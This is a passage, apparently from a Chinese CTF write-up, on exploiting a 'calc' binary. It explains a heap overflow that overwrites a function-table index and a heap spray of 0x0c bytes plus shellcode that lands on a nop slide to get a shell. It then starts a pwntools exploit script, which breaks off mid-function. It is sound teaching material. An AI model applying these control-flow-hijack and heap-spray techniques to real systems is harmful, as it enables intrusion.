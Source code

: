 可以看出，var\_stack和func\_stack的前四个字节为索引，溢出var\_stack所在的堆块，覆盖func\_stack的索引为overflowed_index，那在(\*(void (\*\*)(void))(v10 + 8))();就相当call  (*(func\_stack+ overflowed\_index)+8)，从而实现控制流劫持。

问题是overflowed\_index只能是堆地址，那(func\_stack+ overflowed\_index)会访问到ummaped region。

解决方法就是heap spray， 讲道理这是我第一次在CTF题中碰到堆喷，以至于如果不是队友提醒我都没有注意到。我们向堆中喷大量"0x0c"*200+shellcode， 那因为堆被喷过的关系，(func\_stack+ overflowed\_index)会被mapped，而且*(func\_stack+ overflowed\_index)+8==0x0c0c0c0c,(\*(void (\*\*)(void))(v10 + 8))();会成功着陆到nop slide, 最终会调用shellcode拿到shell


## Exploit

### 整数溢出版

```
'''
    Author: Atum
    Created Time: Wed Dec 1 21:01:25 2016
    File Name: expcalc.py
'''
'''
    Author: Atum
    Created Time: Wed Dec 1 21:01:25 2016
    File Name: expcalc.py
'''
from pwn import *;

port=20001
objname = "calc"
objpath = "./"+objname
io = process(objpath)
elf = ELF(objpath)
context(arch="i386", os="linux", log_level="debug")
context.terminal = ["tmux", "splitw", "-h"]


def readuntil(delim):
    data = io.recvuntil(delim);
    return data;

def readlen(len):
    data = io.recv(len,1);
    return data;

def readall():
    data = io.recv(4096,10);
    return data;

def write(data):
    io.send(str(data));
    sleep(0.1)
def writeline(data):
    io.sendline(str(data));
    sleep(0.1)
def addstr(a,b):
    data="add";
    data+=" \"";
    data+=a
    data+="\" \"";
    data+=b
    data+="\""
    writeline(data);
def mulstr(a,b):
    data="mul";
    data+=" \"";
```